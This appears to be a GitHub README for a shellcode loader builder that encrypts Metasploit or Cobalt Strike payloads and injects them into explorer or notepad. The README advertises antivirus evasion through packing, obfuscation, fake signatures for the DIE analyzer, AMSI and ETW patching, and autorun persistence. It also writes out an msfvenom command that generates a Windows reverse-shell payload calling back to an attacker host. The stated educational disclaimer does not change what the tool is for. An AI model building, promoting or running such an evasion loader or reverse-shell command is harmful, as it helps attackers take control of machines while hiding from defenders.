


# ⚔️ <b>Shellcode Loader 1.0</b>
>

```diff
- to compile this project required and dnlib package
```

# 📕 About 
> <b>This is a simple implementation of my automated shellcode-loader builder when we do not have an executable file or we need to take the shellcode directly from the file and implement a program that needs to be loaded onto the end station, I automated this a little with support for shellcode encryption, its bytes are taken and encrypted using xor and when launched, they are decrypted in memory in one of these processes "explorer" or "notepad", so far there are only 2 processes to choose from, in the future I will slightly correct this option. The builder also has support for a packer to compress the main loader and hide static signatures, and there is also an obfuscator functionality containing various loader mutation algorithms, these are simple algorithms designed for simple obfuscation, there is also support for fake signatures for the DIE static analyzer. The actual shellcode bytes are taken and parsed directly from the file, their pattern is { 0x... <PAYLOAD BYTES> }. Then the standard process: encryption, transfer to the loader stub and compilation.</b>

# 💉 Support shellcode:
    1) Metasploit shellcode (csharp)
    2) Cobalt Strike shellcode (csharp)

 ```shell
 msfvenom -p windows/shell_reverse_tcp LHOST=<iface> LPORT=<port> -f csharp > shell.txt # metaslpoit

 # Cobalt Strike
 Payloads -> Stager Payload Generator
 Output -> C#
 Use x64 payload -> set true
 ```
<br>

# ⚙️ Features
- 🖥️ **Compress**: Simple implementation of compression and hiding of static signatures of the main loader.
- ⚔️ **Shellcode Encryption**: Shellcode Byte Encryption and Decryption and their Implementation in Memory.
- 🚀 **Autorun**: Autostart application after OS restart.
- ⚙️ **Conditional Compilation**: Allows the builder to include only the features and options chosen by the user, making the final build more streamlined.
- 🔒 **Custom Renaming and Obfuscation**: Includes customizable renaming of functions and string encryption to make the code less readable and harder to analyze.
- 🎃 **Amsi/Etw patches**: Support for "EtwEventTrace" patches and "AmsiScanBuffer" functions.
<br>

# 📽️ Showcase:


## 📸 **Screens**: 
> 
> 
> 
<br>

## ⚠️ **Disclaimer**: 
```
This project is for educational purposes only, intended for studying malware and security techniques. The author is not responsible for any malicious use of this software.
```
<br>

# ⭐ Credits 

- **Author**: <a href="https://github.com/k3rnel-dev">@K3rnel-Dev</a>
- **dnlib**: A library for manipulating .NET assemblies.  
  GitHub: [https://github.com/0xd4d/dnlib](https://github.com/0xd4d/dnlib)
---
